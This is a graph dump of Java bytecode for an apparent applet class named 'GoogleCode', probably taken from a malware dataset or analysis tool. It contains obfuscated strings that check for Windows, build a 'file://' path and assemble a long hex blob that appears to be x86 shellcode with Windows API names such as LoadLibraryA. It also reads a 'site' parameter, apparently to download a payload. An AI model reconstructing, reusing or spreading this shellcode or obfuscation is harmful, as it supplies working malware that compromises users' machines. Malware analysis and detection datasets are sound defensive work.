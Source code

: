 digraph "" {
    "r0 := @this: GoogleCode"
    "push 47"
    "r0 := @this: GoogleCode"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <GoogleCode: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <GoogleCode: java.lang.String repeat(char,int)>";
    "store.r r413"
    "staticinvoke <GoogleCode: java.lang.String repeat(char,int)>"->"store.r r413";
    "push \"osgg.gggggggnamgge\""
    "store.r r413"->"push \"osgg.gggggggnamgge\"";
    "push \"g\""
    "push \"osgg.gggggggnamgge\""->"push \"g\"";
    "push \"\""
    "push \"g\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"wian\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"wian\"";
    "push \"a\""
    "push \"wian\""->"push \"a\"";
    "push \"a\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"RfilRRRReRRRR://\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"RfilRRRReRRRR://\"";
    "push \"R\""
    "push \"RfilRRRReRRRR://\""->"push \"R\"";
    "push \"R\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r413"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r413";
    "load.r r413"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%7777Z%Z%77Z%777Z%Z%777\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%7777Z%Z%77Z%777Z%Z%777\"";
    "push \"7\""
    "push \"Z%7777Z%Z%77Z%777Z%Z%777\""->"push \"7\"";
    "push \"7\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r413";
    "store.r r413"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"50NNNN5NNN351NN5NNNNNN25NNN6NNNN5N7559NNNNCNNNNENNN8NNNN\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"50NNNN5NNN351NN5NNNNNN25NNN6NNNN5N7559NNNNCNNNNENNN8NNNN\"";
    "push \"N\""
    "push \"50NNNN5NNN351NN5NNNNNN25NNN6NNNN5N7559NNNNCNNNNENNN8NNNN\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00jj0jj0jjjj0000j5D83jjjjjjEjjjjD0Djjj3j1C064jj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00jj0jj0jjjj0000j5D83jjjjjjEjjjjD0Djjj3j1C064jj\"";
    "push \"j\""
    "push \"00jj0jj0jjjj0000j5D83jjjjjjEjjjjD0Djjj3j1C064jj\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0MMMM34MM0MMMMMMMM3MMM078MM0CMMMM8MMMB400CMMM8MBMMMM70MMMM1C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0MMMM34MM0MMMMMMMM3MMM078MM0CMMMM8MMMB400CMMM8MBMMMM70MMMM1C\"";
    "push \"M\""
    "push \"0MMMM34MM0MMMMMMMM3MMM078MM0CMMMM8MMMB400CMMM8MBMMMM70MMMM1C\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AsDs8ssssBss4008EsssB0ssss98B40ss34ss8ssDs407C8ssssBssss40sss3Cssss5ssss6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AsDs8ssssBss4008EsssB0ssss98B40ss34ss8ssDs407C8ssssBssss40sss3Cssss5ssss6\"";
    "push \"s\""
    "push \"AsDs8ssssBss4008EsssB0ssss98B40ss34ss8ssDs407C8ssssBssss40sss3Cssss5ssss6\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mmm57mmmmBE5E01mm0mmm00mmm00mmmm1mmm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mmm57mmmmBE5E01mm0mmm00mmm00mmmm1mmm\"";
    "push \"m\""
    "push \"mmm57mmmmBE5E01mm0mmm00mmm00mmmm1mmm\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"@EEBF@@@4E0@100@@@0@0@@@0@@@@1EFE8@@D6@01@@@@@0@00@@@@0@@5@@@F@@@5@@@@E@@@@\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"@EEBF@@@4E0@100@@@0@0@@@0@@@@1EFE8@@D6@01@@@@@0@00@@@@0@@5@@@F@@@5@@@@E@@@@\"";
    "push \"@\""
    "push \"@EEBF@@@4E0@100@@@0@0@@@0@@@@1EFE8@@D6@01@@@@@0@00@@@@0@@5@@@F@@@5@@@@E@@@@\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"89EpApppp8pp1C2ppp5ppppE0ppp100pppppppp0pppppppp052pppp6ppp88000000p0ppppFpF95pp4E0100008pp9EppppA81C2pppp5pEp0pppp\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"89EpApppp8pp1C2ppp5ppppE0ppp100pppppppp0pppppppp052pppp6ppp88000000p0ppppFpF95pp4E0100008pp9EppppA81C2pppp5pEp0pppp\"";
    "push \"p\""
    "push \"89EpApppp8pp1C2ppp5ppppE0ppp100pppppppp0pppppppp052pppp6ppp88000000p0ppppFpF95pp4E0100008pp9EppppA81C2pppp5pEp0pppp\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"kkkk1k0000k31Fkk6k01Ck28kA9C3kk56kkkk30kkkk2kkkkk0k0008k0kkkFkkBkk00kkkk7k4kkk0k68kk8kkkkkkk1C3k24kk6kkkkkEBEkkkkkkEC6kkk0kkkk4320kkk0kkkk89EkkkkAkkkk81kC2kkkk45kkkkkkkk020kkkk0kk005k2FkkkkF9552k0kk10kkkk00089EkkA8kkkk1kkCkkkkkk2k\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"kkkk1k0000k31Fkk6k01Ck28kA9C3kk56kkkk30kkkk2kkkkk0k0008k0kkkFkkBkk00kkkk7k4kkk0k68kk8kkkkkkk1C3k24kk6kkkkkEBEkkkkkkEC6kkk0kkkk4320kkk0kkkk89EkkkkAkkkk81kC2kkkk45kkkkkkkk020kkkk0kk005k2FkkkkF9552k0kk10kkkk00089EkkA8kkkk1kkCkkkkkk2k\"";
    "push \"k\""
    "push \"kkkk1k0000k31Fkk6k01Ck28kA9C3kk56kkkk30kkkk2kkkkk0k0008k0kkkFkkBkk00kkkk7k4kkk0k68kk8kkkkkkk1C3k24kk6kkkkkEBEkkkkkkEC6kkk0kkkk4320kkk0kkkk89EkkkkAkkkk81kC2kkkk45kkkkkkkk020kkkk0kk005k2FkkkkF9552k0kk10kkkk00089EkkA8kkkk1kkCkkkkkk2k\""->"push \"k\"";
    "push \"k\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"500j20jjj0jjjj0j0jj525jjjj0FjjjjFjj9jj556jjj0jj100jjjj0jjj06Ajjj00jjjjjjj6jjjjjAjjjj008jj9EjjA8jjjj1Cj25E01000jjj052jjj8jj9EAjj8jj1jjC27jjj80j20000526jjjAjj0jjj0jjjFFD06jjjA0jjjj589EjjjjAjj81Cj2jjjj5jjjjEj0j1j00jj0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"500j20jjj0jjjj0j0jj525jjjj0FjjjjFjj9jj556jjj0jj100jjjj0jjj06Ajjj00jjjjjjj6jjjjjAjjjj008jj9EjjA8jjjj1Cj25E01000jjj052jjj8jj9EAjj8jj1jjC27jjj80j20000526jjjAjj0jjj0jjjFFD06jjjA0jjjj589EjjjjAjj81Cj2jjjj5jjjjEj0j1j00jj0\"";
    "push \"500j20jjj0jjjj0j0jj525jjjj0FjjjjFjj9jj556jjj0jj100jjjj0jjj06Ajjj00jjjjjjj6jjjjjAjjjj008jj9EjjA8jjjj1Cj25E01000jjj052jjj8jj9EAjj8jj1jjC27jjj80j20000526jjjAjj0jjj0jjjFFD06jjjA0jjjj589EjjjjAjj81Cj2jjjj5jjjjEj0j1j00jj0\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0qqq52qqqqFqqFqqqqq955Aqq0qqq1qqqqq000qqq0qqq8qqqq9qqEqqA81C25Eqq01qqqq000q052688q00qqq00qqqq00qqqqqq0FqqqqFq954Eqqq01q00q0qq08qqq9EA8qqq1qC25qqE01qqqq000031qqqqF6qqqqqqq01qqqqCqqq28qqA9qqqqCqq3q5q6E0qqqq200008qqqq0qq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0qqq52qqqqFqqFqqqqq955Aqq0qqq1qqqqq000qqq0qqq8qqqq9qqEqqA81C25Eqq01qqqq000q052688q00qqq00qqqq00qqqqqq0FqqqqFq954Eqqq01q00q0qq08qqq9EA8qqq1qC25qqE01qqqq000031qqqqF6qqqqqqq01qqqqCqqq28qqA9qqqqCqq3q5q6E0qqqq200008qqqq0qq\"";
    "push \"q\""
    "push \"0qqq52qqqqFqqFqqqqq955Aqq0qqq1qqqqq000qqq0qqq8qqqq9qqEqqA81C25Eqq01qqqq000q052688q00qqq00qqqq00qqqqqq0FqqqqFq954Eqqq01q00q0qq08qqq9EA8qqq1qC25qqE01qqqq000031qqqqF6qqqqqqq01qqqqCqqq28qqA9qqqqCqq3q5q6E0qqqq200008qqqq0qq\""->"push \"q\"";
    "push \"q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FB00<<<<7406<<<88<<<1<<C3<<<246E<<<BE<<EC6<<<<<<<043<<<20<<089E<A81<C<<<<2<<<<4502<0<<<<0<<<0<<<05<<<2<<F<<<<F<<<95520100008<<9EA<81C2<<<5<00200<<0<<<<0525<<<<0<<<FF9<5<<5<<<<6<0<<<1<<<<00<<<0<<0<6<<<A<<<00<6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FB00<<<<7406<<<88<<<1<<C3<<<246E<<<BE<<EC6<<<<<<<043<<<20<<089E<A81<C<<<<2<<<<4502<0<<<<0<<<0<<<05<<<2<<F<<<<F<<<95520100008<<9EA<81C2<<<5<00200<<0<<<<0525<<<<0<<<FF9<5<<5<<<<6<0<<<1<<<<00<<<0<<0<6<<<A<<<00<6\"";
    "push \"<\""
    "push \"FB00<<<<7406<<<88<<<1<<C3<<<246E<<<BE<<EC6<<<<<<<043<<<20<<089E<A81<C<<<<2<<<<4502<0<<<<0<<<0<<<05<<<2<<F<<<<F<<<95520100008<<9EA<81C2<<<5<00200<<0<<<<0525<<<<0<<<FF9<5<<5<<<<6<0<<<1<<<<00<<<0<<0<6<<<A<<<00<6\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AYY0YYYYYYYY0YYY89YYYYEA8YYY1YC2Y5EYYYY0YYYY10Y0YYY0YY0528YYYYYYYY9YYYYYEAYYY81C2A60Y20YYY00YYYY0526YYYYA00YYFFYD06A058YYY9YYYEA81YC2YYYYY5EY010Y0005YY2YYFFY955YYYYA0YYY10Y00Y09DYYYY5DYY5YYF5E5YA5Y9YYYYYY5YYYB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AYY0YYYYYYYY0YYY89YYYYEA8YYY1YC2Y5EYYYY0YYYY10Y0YYY0YY0528YYYYYYYY9YYYYYEAYYY81C2A60Y20YYY00YYYY0526YYYYA00YYFFYD06A058YYY9YYYEA81YC2YYYYY5EY010Y0005YY2YYFFY955YYYYA0YYY10Y00Y09DYYYY5DYY5YYF5E5YA5Y9YYYYYY5YYYB\"";
    "push \"Y\""
    "push \"AYY0YYYYYYYY0YYY89YYYYEA8YYY1YC2Y5EYYYY0YYYY10Y0YYY0YY0528YYYYYYYY9YYYYYEAYYY81C2A60Y20YYY00YYYY0526YYYYA00YYFFYD06A058YYY9YYYEA81YC2YYYYY5EY010Y0005YY2YYFFY955YYYYA0YYY10Y00Y09DYYYY5DYY5YYF5E5YA5Y9YYYYYY5YYYB\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"58C;;;;300;;0;000;;;;0000;00;;;;;0;;0;00;;0;;;;;;0;;0;0;;;0;;0;0;;;0;;;0;;;00000;0;;;0;;;476574;;546;5;;;6;;D70;;;5;;;;0;;;;617;;4;;;;6841;;;;0;;;;0;;;;4;;C6;;F6;;16;;44C6;;;;9;;;6;;;272617;;;2;;7;;;;9;;;;4;10047;;65;;;74;;;;5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"58C;;;;300;;0;000;;;;0000;00;;;;;0;;0;00;;0;;;;;;0;;0;0;;;0;;0;0;;;0;;;0;;;00000;0;;;0;;;476574;;546;5;;;6;;D70;;;5;;;;0;;;;617;;4;;;;6841;;;;0;;;;0;;;;4;;C6;;F6;;16;;44C6;;;;9;;;6;;;272617;;;2;;7;;;;9;;;;4;10047;;65;;;74;;;;5\"";
    "push \";\""
    "push \"58C;;;;300;;0;000;;;;0000;00;;;;;0;;0;00;;0;;;;;;0;;0;0;;;0;;0;0;;;0;;;0;;;00000;0;;;0;;;476574;;546;5;;;6;;D70;;;5;;;;0;;;;617;;4;;;;6841;;;;0;;;;0;;;;4;;C6;;F6;;16;;44C6;;;;9;;;6;;;272617;;;2;;7;;;;9;;;;4;10047;;65;;;74;;;;5\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0III72III6F634III1IIII6464II72IIII6IIII5II7III37I30IIII0576III96E457IIII86IIIIIII5I63IIII00IIIIBIIB89F28IIII9IIIFI7I3IIIIIIII0C0AIIEIIII7I5FIDIIII2II9IIF789IF9I3IIII1C0BIIE3IIIC00I0II00IIII003B51BIIIIIII020III00066I\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0III72III6F634III1IIII6464II72IIII6IIII5II7III37I30IIII0576III96E457IIII86IIIIIII5I63IIII00IIIIBIIB89F28IIII9IIIFI7I3IIIIIIII0C0AIIEIIII7I5FIDIIII2II9IIF789IF9I3IIII1C0BIIE3IIIC00I0II00IIII003B51BIIIIIII020III00066I\"";
    "push \"I\""
    "push \"0III72III6F634III1IIII6464II72IIII6IIII5II7III37I30IIII0576III96E457IIII86IIIIIII5I63IIII00IIIIBIIB89F28IIII9IIIFI7I3IIIIIIII0C0AIIEIIII7I5FIDIIII2II9IIF789IF9I3IIII1C0BIIE3IIIC00I0II00IIII003B51BIIIIIII020III00066I\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A44444444D044444443844445441B4444044442044444400444408B70444788444444434444C44461C44440434B444454414444B4044442044440444008D4444444BD4144F444402444400044440A44D034444444851B444440444424444440000ABAD444444044438444454441B44440444240400444050A4BA44D034851B02440\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A44444444D044444443844445441B4444044442044444400444408B70444788444444434444C44461C44440434B444454414444B4044442044440444008D4444444BD4144F444402444400044440A44D034444444851B444440444424444440000ABAD444444044438444454441B44440444240400444050A4BA44D034851B02440\"";
    "push \"4\""
    "push \"A44444444D044444443844445441B4444044442044444400444408B70444788444444434444C44461C44440434B444454414444B4044442044440444008D4444444BD4144F444402444400044440A44D034444444851B444440444424444440000ABAD444444044438444454441B44440444240400444050A4BA44D034851B02440\""->"push \"4\"";
    "push \"4\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0GG00GGGAGB5E3GGG1GDGGBAGGGGGGGD56GGGG0GGGGG3G85GGG1GGBGGGGG0GGGG200GG00GGGG89GGGC68GGG9GGDGGG7GGGGGGG5GG1GGGFGCFG3GGGGAGGG65GGG97GG4GGGG0GGGG45GGGGE43GGGGEBEGGG95E9GGG3DGGGG1GGGEGG0G03G85GGGGGG27020GGGG00031F6GGG96G66AGGGDGGGGGGC1E00203\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0GG00GGGAGB5E3GGG1GDGGBAGGGGGGGD56GGGG0GGGGG3G85GGG1GGBGGGGG0GGGG200GG00GGGG89GGGC68GGG9GGDGGG7GGGGGGG5GG1GGGFGCFG3GGGGAGGG65GGG97GG4GGGG0GGGG45GGGGE43GGGGEBEGGG95E9GGG3DGGGG1GGGEGG0G03G85GGGGGG27020GGGG00031F6GGG96G66AGGGDGGGGGGC1E00203\"";
    "push \"G\""
    "push \"0GG00GGGAGB5E3GGG1GDGGBAGGGGGGGD56GGGG0GGGGG3G85GGG1GGBGGGGG0GGGG200GG00GGGG89GGGC68GGG9GGDGGG7GGGGGGG5GG1GGGFGCFG3GGGGAGGG65GGG97GG4GGGG0GGGG45GGGGE43GGGGEBEGGG95E9GGG3DGGGG1GGGEGG0G03G85GGGGGG27020GGGG00031F6GGG96G66AGGGDGGGGGGC1E00203\""->"push \"G\"";
    "push \"G\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"85dd1F0dd200008dddd9ddddddC6AD0dddd3dddd85dd1dBddd020dd0dddd0dddd0dddCdddd3ddEBdd10ddd00ddd0ddd0ddd0d0000dddd00dd0dd00dddddd0d00dddddd000dd000dddd0ddd00dddddd00dddd00dddd0dd0ddd89dddd85dddd1B020000ddd5dd65ddddddd7ddEddd8dddddd5dddd8FFFFFddddFdddd5F5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"85dd1F0dd200008dddd9ddddddC6AD0dddd3dddd85dd1dBddd020dd0dddd0dddd0dddCdddd3ddEBdd10ddd00ddd0ddd0ddd0d0000dddd00dd0dd00dddddd0d00dddddd000dd000dddd0ddd00dddddd00dddd00dddd0dd0ddd89dddd85dddd1B020000ddd5dd65ddddddd7ddEddd8dddddd5dddd8FFFFFddddFdddd5F5\"";
    "push \"d\""
    "push \"85dd1F0dd200008dddd9ddddddC6AD0dddd3dddd85dd1dBddd020dd0dddd0dddd0dddCdddd3ddEBdd10ddd00ddd0ddd0ddd0d0000dddd00dd0dd00dddddd0d00dddddd000dd000dddd0ddd00dddddd00dddd00dddd0dd0ddd89dddd85dddd1B020000ddd5dd65ddddddd7ddEddd8dddddd5dddd8FFFFFddddFdddd5F5\""->"push \"d\"";
    "push \"d\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E@@@AB@0@@@@1@@@@C@@@E@@@@8@@0@@@3@E@@@@BB@7@@@@4@@@@0@@@2EBE@@@@DC355@5@24@@@C4D@@4@F@@@4E2E4@@4@@4C@@@@@@@4C005@@@@55@@@2@@@@4C4@@@@4@@6@@F776E@@@@6C@@@6@@@@F61@6454@@@6@@F@@@@@46696@C654100@@706@@@@4@@6@@@@@@6@@@7570@@@6@@@@4@@@@2E@@@@657@8@65@0@@06@@@372617@@3@@@@6@82E@@7@@@@@0@@68@70@@00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E@@@AB@0@@@@1@@@@C@@@E@@@@8@@0@@@3@E@@@@BB@7@@@@4@@@@0@@@2EBE@@@@DC355@5@24@@@C4D@@4@F@@@4E2E4@@4@@4C@@@@@@@4C005@@@@55@@@2@@@@4C4@@@@4@@6@@F776E@@@@6C@@@6@@@@F61@6454@@@6@@F@@@@@46696@C654100@@706@@@@4@@6@@@@@@6@@@7570@@@6@@@@4@@@@2E@@@@657@8@65@0@@06@@@372617@@3@@@@6@82E@@7@@@@@0@@68@70@@00\"";
    "push \"E@@@AB@0@@@@1@@@@C@@@E@@@@8@@0@@@3@E@@@@BB@7@@@@4@@@@0@@@2EBE@@@@DC355@5@24@@@C4D@@4@F@@@4E2E4@@4@@4C@@@@@@@4C005@@@@55@@@2@@@@4C4@@@@4@@6@@F776E@@@@6C@@@6@@@@F61@6454@@@6@@F@@@@@46696@C654100@@706@@@@4@@6@@@@@@6@@@7570@@@6@@@@4@@@@2E@@@@657@8@65@0@@06@@@372617@@3@@@@6@82E@@7@@@@@0@@68@70@@00\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r74"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r74";
    "load.r r0"
    "store.r r74"->"load.r r0";
    "push \"siNNNteN\""
    "load.r r0"->"push \"siNNNteN\"";
    "push \"siNNNteN\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>";
    "push \"eee00eee9ee0eeee\""
    "virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>"->"push \"eee00eee9ee0eeee\"";
    "push \"e\""
